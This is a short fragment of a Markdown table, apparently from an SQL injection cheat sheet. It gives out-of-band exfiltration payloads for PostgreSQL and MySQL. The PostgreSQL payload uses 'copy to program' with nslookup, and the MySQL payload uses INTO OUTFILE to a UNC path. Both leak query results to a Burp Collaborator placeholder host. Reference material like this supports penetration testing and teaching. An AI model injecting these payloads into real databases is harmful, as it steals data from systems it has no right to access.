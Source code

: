 | PostgreSQL | `create OR replace function f() returns void as $$ declare c text; declare p text; begin SELECT into p (SELECT YOUR-QUERY-HERE); c := 'copy (SELECT '''') to program ''nslookup '\|p\|'.BURP-COLLABORATOR-SUBDOMAIN'''; execute c; END; $$ language plpgsql security definer; SELECT f();` |
| MySQL      | <p>The following technique works on Windows only:<br><code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></p>                                                                                                                                              |
